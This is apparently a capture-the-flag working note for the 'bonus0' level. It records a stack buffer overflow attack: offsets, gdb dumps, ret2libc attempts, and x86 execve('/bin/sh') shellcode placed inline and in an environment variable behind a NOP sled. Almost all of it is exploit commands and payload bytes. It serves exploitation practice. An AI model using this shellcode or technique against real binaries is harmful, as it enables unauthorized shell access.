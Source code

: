 # bonus0

## Useful infos

max string we can write: `AAAABBBBCCCCDDDDEEEE1111222233334444555 1111222233334444555`

first string: `AAAABBBBCCCCDDDDEEEE`
second string `1111222233334444555`
segfaults on call to `0x34333333` -> `111122223[3334]444555`

### ret2libc try

address of system: `0xb7e6b060` -> `\x60\xb0\xe6\xb7`
address of "/bin/sh": `0xb7f8cc58` -> `\x58\xcc\xf8\xb7`

exploit: `echo -e "111122223\x60\xb0\xe6\xb74445555"`
exploit: `echo -e "\x59\xcc\xf8\xb7\x59\xcc\xf8\xb73\x60\xb0\xe6\xb7444555"`
exploit: `echo -e "\x59\xcc\xf8\xb7\x59\xcc\xf8\xb7\x59\xcc\xf8\xb7\x59\xcc\xf8\xb7\x59\xcc\xf8\xb7"`

(gdb) x/100xw $esp
0xbffffdf0:	[0xbffffe06	0x080498d8	0x00000001	0x0804835d
0xbffffe00:	0xb7fd13e4	0x41410016	0x42424141	0x43434242
0xbffffe10:	0x44444343	0x45454444	0x31312045	0x32323131
0xbffffe20:	0x33333232	0x34343333	0x35353434	0xb7fd0035]
0xbffffe30:	0x080485d0	0x00000000	0x00000000	0xb7e454d3

Second try:  
exploit: `echo -e "AAAABBBBCCCCDDDDEEEE"`
exploit: `echo -e "11\x60\xb0\xe6\xb7\x58\xcc\xf8\xb7334444555"`
exploit: `echo -e "11\x58\xcc\xf8\xb7\x58\xcc\xf8\xb7\x58\xcc\xf8\xb7\x60\xb0\xe6\xb75"`


### shellcode

0xffffca50
0xffffca16
0xffffdd96
0xbffffe10 = `\x16\xfe\xff\xbf`

Shellcode:  
`\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80`

exploit:  
`echo -e "\x90\x90\x90\x90\x90\x90\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89"`
`echo -e "\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80\x16\xfe\xff\xbf5"`

with trap:
`echo -e "\x90\x90\x90\x90\x90\xcc\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89"`
`echo -e "\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80\x16\xfe\xff\xbf5"`

### shellcode in environment variable

middle of the nopslide: `0xbffff8b0`

Test:  
`EXPLOIT=$(echo -ne "\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\xcc")`

exploit:  
str1: `echo AAAABBBBCCCCDDDDEEEE`
str2: `echo -e "11112222333344\xb0\xf8\xff\xbf5"`

`EXPLOIT=$(echo -ne "\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80")`